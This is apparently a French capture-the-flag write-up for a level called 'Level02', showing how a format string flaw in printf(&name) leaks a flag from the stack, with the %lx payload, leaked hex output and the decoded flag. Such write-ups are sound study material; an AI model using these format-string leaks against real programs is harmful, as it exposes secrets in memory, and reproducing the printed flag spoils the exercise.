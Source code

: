 # Level02

On observe que l'exécutable lit un input sur l'entrée standard

```shell
$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Hello
--[ Password: World
*****************************************
Hello does not have access!
```

On remarque un `printf(&name)` de notre username et que le `flag` est lu et stocké
juste avant notre variable `name` sur la stack. On cherche alors à l'afficher grâce
au `%x` de printf.

On remarque aussi que l'executable est en `64 bits` grace au nom des registres:
`rax`, `rbx`, `rcx` et `rdx`. Il faut alors utiler `%lx` au lieux de `%x`

```shell
$ python -c 'print("AAAABBBB %21$lx %22$lx %23$lx %24$lx %25$lx %26$lx %27$lx %28$lx")' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
AAAABBBB 0 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d 0 4242424241414141 does not have access!
```

On connait notre flag stocké maintenant. Plus qu'à le convertir en ASCII.

```shell
$ python -c 'print("\x75\x6e\x50\x52\x34\x37\x68\x48"[::-1] + "\x45\x41\x4a\x35\x61\x73\x39\x51"[::-1] + "\x37\x7a\x71\x43\x57\x4e\x67\x58"[::-1] + "\x35\x4a\x35\x68\x6e\x47\x58\x73"[::-1] + "\x48\x33\x67\x50\x66\x4b\x39\x4d"[::-1])'
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
